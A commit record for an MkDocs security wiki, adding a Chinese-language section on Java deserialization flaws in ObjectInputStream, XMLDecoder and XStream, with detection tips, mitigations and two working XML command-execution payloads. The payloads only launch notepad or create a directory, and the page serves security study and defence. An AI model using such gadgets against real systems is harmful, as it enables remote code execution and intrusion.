

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 1400 px high, scrolled down 8162 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -349,6 +349,77 @@ if(token != null && token.equals(req_token)) {
 
 
 ## 反序列化
+
+### Java
+
+#### ObjectInputStream
+
+1. 请求报文以16进制`aced 0005`开头，即序列化后的对象在http请求中发送。BASE64为r00AB。
+1. 代码中搜索：`ObjectInputStream.readObject()`
+1. poc: [ysoserial](https://github.com/frohoff/ysoserial)
+    - `ObjectInputStream.readObject()`会自动调用实现了Serializable/Externalizable接口的类方法：
+        - `readObject()`
+        - `readObjectNoData()`
+        - `readResolve()`
+        - `readExternal()`
+
+        **将POC写入到这些方法中**，如：`Runtime.getRuntime().exec("open /Applications/Calculator.app/");`。
+
+1. 消减措施: 继承ObjectInputStream并重写resolveClass
+    1. 增加白名单校验: `"com.xxx.Xxx".equals(desc.getName())`
+    1. 增加安全管理器:
+        - `permission java.io.SerializablePermission "enableSubclassImplementation";`
+        - `permission java.io.SerializablePermission "com.xxx.Xxx";`
+        - `sm.checkPermission(new SerializablePermission("com.xxx."+desc.getName()));`
+
+#### XMLDecoder
+
+1. 请求为xml格式, 且包含`class="java.beans.XMLDecoder"`
+1. 代码中搜索：`java.beans.XMLDecoder.readObject()`
+1. poc:
+
+    ```xml
+    <?xml version="1.0" encoding="UTF-8"?>
+    <java version="1.8.0_241" class="java.beans.XMLDecoder">
+     <object class="java.lang.ProcessBuilder">
+      <array class="java.lang.String" length="1">
+       <void index="0">
+        <string>notepad.exe</string>
+       </void>
+      </array>
+      <void method="start" />
+     </object>
+    </java>
+    ```
+
+#### XStream <= 1.4.10
+
+[XStream](https://x-stream.github.io/), April 12, 2020 XStream 1.4.12 released
+
+1. 请求为xml格式, 且xml内容为Java Bean格式
+1. 代码中搜索：`xStream.fromXML()`
+1. poc:
+
+    ```xml
+    <sorted-set>
+        <string>foo</string>
+        <dynamic-proxy>
+            <interface>java.lang.Comparable</interface>
+            <handler class="java.beans.EventHandler">
+                <target class="java.lang.ProcessBuilder">
+                    <command>
+                        <string>/usr/bin/mkdir</string>
+                        <string>/tmp/hackerdir</string>
+                    </command>
+                </target>
+                <action>start</action>
+            </handler>
+        </dynamic-proxy>
+    </sorted-set>
+    ```
+
+
+### PHP
 
 ```php
 // 定义类
````
